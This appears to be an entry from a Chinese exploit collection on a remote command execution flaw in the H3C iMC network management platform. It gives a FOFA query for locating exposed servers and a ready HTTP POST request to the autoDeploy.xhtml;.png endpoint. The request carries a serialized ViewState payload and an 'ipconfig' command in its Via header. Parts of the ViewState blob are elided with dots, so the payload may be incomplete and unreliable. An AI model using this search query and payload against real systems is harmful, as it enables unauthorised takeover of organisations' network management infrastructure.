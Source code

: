 ## H17-4H3C-IMC智能管理中心-RCE

漏洞描述：

H3C智能管理中心（intelligence Management  Center，iMC）平台（以下简称iMC平台）为用户提供了实用、易用的网络管理功能，在网络资源的集中管理基础上，实现拓扑、故障、性能、配置、安全等管理功能，不仅提供功能，更通过流程向导的方式告诉用户如何使用功能满足业务需求，为用户提供了网络精细化管理最佳的工具软件。对于设备数量较多、分布地域较广并且又相对较为集中的网络，iMC平台提供分级管理的功能，有利于对整个网络进行清晰分权管理和负载分担。iMC平台除了涵盖网络管理功能外，还是其他业务管理组件的承载平台，共同实现了管理的深入融合联动。H3C智能管理中心autoDeploy.xhtml;.png接口存在远程命令执行漏洞.

fofa：

(title="用户自助服务" && body="/selfservice/javax.faces.resource/") || body="/selfservice/index.xhtml"

payload：

```http
POST /imc/dc3dtopo/dc2dtopo/autoDeploy.xhtml;.png HTTP/1.1
User-Agent:Mozilla/5.0(Windows NT 6.1; WOW64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/94.0.2558.72Safari/537.36
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: close
Host: xx.xx.xx.xx
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Content-Type: application/x-www-form-urlencoded
Via: ipconfig
Content-Length: 2186

javax.faces.ViewState=8SzWaaoxnkq9php028NtXbT98DEcA...Uh57HB/L8xz6eq%2b4sy0rUOuOdM5ccd2J6LPx8c6%2b53QkrX...jpFKgVnp07bad4n6CCBW8l98QIKwByAhLYdU2VpB/voaa....2oU%2burahQDFE8mIaFvmwyKOHiwyovIHCVymqKwNdWXm3iHLhYEQXL4....k3z7MWm%2bwbV2Dc9TXV4rs8E6M7ZvVM3B0pORK8vAhd2iLBkgFhGHw9ZgOwifGnyMzfxlU....gG4chEOg57teuLurMPrulbEVBAEl7rRwobqvxb91sG%2bGMrGWFL5%2bwFvE56x7UEzHtE/o0IRtzTKi/EFnamrPT1046e7L8jABKDB/LjCX2qAOmqQkIz4gXrEFnHHYZ9LZc7t9ZZPNT...JZjummuZuror/zwPbnsApwXlYsn2hDAZ7QlOBunA3t7omeOTI5keWXvmOH8eoEEN//SlmQblwhBZ7kSHPvStq0ZciiPptEzVjQ/k/gU2QbCSc7yG0MFbhcJEDQj4yKyJ/yTnOOma....KuNzZl%2bPpEua%2b28h2YCKipVb5S/wOCrg%2bKD3DUFCbdWHQRqDaZyvYsc8C0X7fzutiVUlSB7OdGoCjub9WuW0d2eeDWZmOt3Wunms3SwAbE7R%2bonCRVS8tiYWF8qiQS%2bl0k8Gw/Hz6Njpfe0upLIAtPFNDuSf69qGg4isEmY2FtoSQTdD8vU0BdJatHrBArPgo9Qsp0jSJBlUz2OqteQg05PYO6gEBXVj/RiTBHI1/pOzlcE0wVZcLUHnxGNvckSCTiT....nWbkWGJ8AYCvrM0PHZ/BYcKKRf3rMHoIqcAN%2bORMhXcmAXRcvq29c5xqoOuvrMSJPDZmbZhcm/99crGJSO5HxXQder9WKm2tVBaDLEC9ulpWyICJYgfxayoWkt6vwPcq2Tn20vn5RDpfqJKLNLbrV8g7JDRUUyW%2b....R6PRNunKhfJHvHcXAZ73mkCUf7cMUbNhqCbLSGP/D%2bqpqWXk5ZWjsT4tQ9tFH9uvPIaNB7FlcFXI2I2A9oPoY0ltif%2bb8BdPXVfpuZq8boHE4hY%2b33BIl%2bIa%2bov6nyMmGIzCKYeRbfDJtk/45EXvink6BIgA/205la6vvqKTGQ32o1AtepBgKei....604cVvbEP7UKor09Gz61mryE4D%2biXG1prZGCT3LEtdASuCkmf4RTEc5wks2In3ElZSZl8zf3RsHA0dgbvrpnXe2wLPI%2bUCAGO%2biOG9/%2bbCQJQNFmykkyRbmslfcilUxZ%2bIg%2bQuOs9FlMod2ICrkktOFFeZWNeznx737S8H4Nf2%2bp2QNHY2I6GFGtWpqjeZ%2bGmb1euM5Tzi06eJ.......koPrjkDT9VPoxCgpRMQl06x7NShkos7BCI9fV1%2b17t5gWZvqAYzeQUsZLaiBXaZfuUtPuBmbq1re/dB/VgSOn4QX%2b8AwwDjtfazsHw4aIdh4e2a1y/Ou2ZiI//EzkwIBksY6CluuPgocdvtOfNiWcXsfYs3UKLmL/48A4Ls0OF1TrQK4UnfCYt.....1DGrwzfXnM9vLHznFaJenqvLY3yTiKN5SSVxvGwvhmp6PFW4Jj7G8NXdr/zN7HyC9Eg1Y1jKP7uiO%2bGM2U/etvMOCKwnfP2MnbznP378fZHf1H9yiVVrn%2bm%2b0u8PV.....2MsOTgS6B7C8ItflgSfJz5dkJ8IssRAcY%2bu/2QjrW95BBMSRPu2EaCUm1IpuszXEwHYgDizWPzDB0hSRgCEjncpGhPX3i10bK4/snBaBcAxAa1e2er2LDe/4WgaIwc9w2wKn3wXY5B87BKF5/Xq30....NNf6EMRrQ9154rEkCJb4IU4sFsTuyYlfZatlV%2bC2HM7u7FEbdVvr6yYK4oQqvfPmF5yRplwAYUQAvr1jwLbGYxhGaTy14UUrtvoyph5Sqebk2YTKjKX4U7xX5ha4YbyoVIMSRzdvB6YXDY3BId%2bgmMWZtTf2UE%2b9UAx/7g30pQNXA....FP1adq6ySd4x3dGVCe4YJcYe2gKWYVcWj5XPwUSt2fxdshzgFnjjqmRgxowH2u2nZU0xG539lnxIOlB
```

